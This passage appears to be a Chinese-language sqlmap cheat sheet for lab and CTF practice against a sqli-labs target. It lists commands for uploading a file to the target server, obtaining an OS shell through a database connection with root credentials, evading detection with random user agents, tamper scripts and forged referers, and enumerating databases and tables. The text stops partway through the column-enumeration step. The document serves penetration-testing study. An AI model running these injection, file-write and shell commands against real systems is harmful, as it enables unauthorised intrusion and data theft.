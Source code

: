 ```
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-write  test.txt  --file-dest "e:/hack.txt"  #将本地的test.txt文件上传到目标服务器的E盘下，并且名字为hack.txt

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --dbms="MySQL"     #指定其数据库为mysql 
其他数据库：Altibase,Apache Derby, CrateDB, Cubrid, Firebird, FrontBase, H2, HSQLDB, IBM DB2, Informix, InterSystems Cache, Mckoi, Microsoft Access, Microsoft SQL Server, MimerSQL, MonetDB, MySQL, Oracle, PostgreSQL, Presto, SAP MaxDB, SQLite, Sybase, Vertica, eXtremeDB
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --random-agent   #使用任意的User-Agent爆破
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --proxy="http://127.0.0.1:8080"    #指定代理
当爆破HTTPS网站会出现超时的话，可以使用参数 --delay=3 --force-ssl
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --technique T    #指定时间延迟注入，这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式，当然，我们也可以直接手工指定。
支持的探测方式如下：
　　B: Boolean-based blind SQL injection（布尔型注入）
　　E: Error-based SQL injection（报错型注入）
　　U: UNION query SQL injection（可联合查询注入）
　　S: Stacked queries SQL injection（可多语句查询注入）
　　T: Time-based blind SQL injection（基于时间延迟注入）

sqlmap -d "mysql://root:root@192.168.10.130:3306/mysql" --os-shell   #知道网站的账号密码直接连接

-v3                   #输出详细度  最大值5 会显示请求包和回复包
--threads 5           #指定线程数
--fresh-queries       #清除缓存
--flush-session       #清空会话，重构注入 
--batch               #对所有的交互式的都是默认的
--random-agent        #任意的http头
--tamper base64encode            #对提交的数据进行base64编码
--referer http://www.baidu.com   #伪造referer字段

--keep-alive     保持连接，当出现 [CRITICAL] connection dropped or unknown HTTP status code received. sqlmap is going to retry the request(s) 保错的时候，使用这个参数

```



## 2.get提交：



查数据库：

```
python sqlmap.py -u <url>  -dbs
```

查表名：

```
python sqlmap.py -u <url>  -D ctfshow_web -tables
```

查列名：
